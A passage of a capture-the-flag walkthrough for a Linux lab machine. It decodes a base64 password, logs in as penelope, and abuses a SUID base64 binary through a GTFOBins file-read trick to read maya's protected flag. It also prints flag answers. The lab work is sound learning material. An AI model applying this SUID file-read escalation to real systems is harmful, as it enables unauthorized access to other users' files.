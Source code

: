 # Answer : sean{4c5685f4db7966a43cf8e95859801281}

# What is penelope's flag?

From the previous mission,  we catch something encoded in  base64.

Let’s try to decode it
```
sean@linuxagency:~$ echo 'VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==' | base64 -d
<JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==' | base64 -d
The password of penelope is p3nelope
```

We can now SSH the targeted machine. Consider this step as your checkpoint ^^

```
penelope@linuxagency:~$ ls -l
total 56
-rwsr-sr-x 1 maya     maya     39096 Jan 12  2021 base64
-rw-r--r-- 1 penelope penelope  8980 Jan 12  2021 examples.desktop
-r-------- 1 penelope penelope    43 Jan 12  2021 flag.txt
penelope@linuxagency:~$ cat flag.txt
penelope{2da1c2e9d2bd0004556ae9e107c1d222}
```

# Answer : penelope{2da1c2e9d2bd0004556ae9e107c1d222}

# What is maya's flag?

Inside the **penelope** directory, we found an executable **base64**.

Quick check in [GTFOBINS](https://gtfobins.github.io/gtfobins/base64/#file-read)
```
penelope@linuxagency:~$ LFILE=/home/maya/flag.txt
penelope@linuxagency:~$ /home/penelope/base64 "$LFILE" | base64 -d
maya{a66e159374b98f64f89f7c8d458ebb2b}
```

# Answer : maya{a66e159374b98f64f89f7c8d458ebb2b}

# What is robert's Passphrase?

Now we have access to **Maya** home. Many files, let's investigate ^^
```
maya@linuxagency:/home/penelope$ cd ..
maya@linuxagency:/home$ cd maya/
maya@linuxagency:~$ ls -la
total 52
drwxr-x---  5 maya maya 4096 Jan 15  2021 .
drwxr-xr-x 45 root root 4096 Jan 12  2021 ..
lrwxrwxrwx  1 maya maya    9 Jan 12  2021 .bash_history -> /dev/null
-rw-r--r--  1 maya maya  220 Jan 12  2021 .bash_logout
-rw-r--r--  1 maya maya 3771 Jan 12  2021 .bashrc
drwxr-xr-x  3 maya maya 4096 Jan 12  2021 .local
-rw-r--r--  1 maya maya  807 Jan 12  2021 .profile
drwx------  2 maya maya 4096 Jan 12  2021 .ssh
-rw-r--r--  1 maya maya  519 Jan 12  2021 elusive_targets.txt
-rw-r--r--  1 maya maya 8980 Jan 12  2021 examples.desktop
-r--------  1 maya maya   39 Jan 12  2021 flag.txt
drwxr-xr-x  2 maya maya 4096 Jan 15  2021 old_robert_ssh
```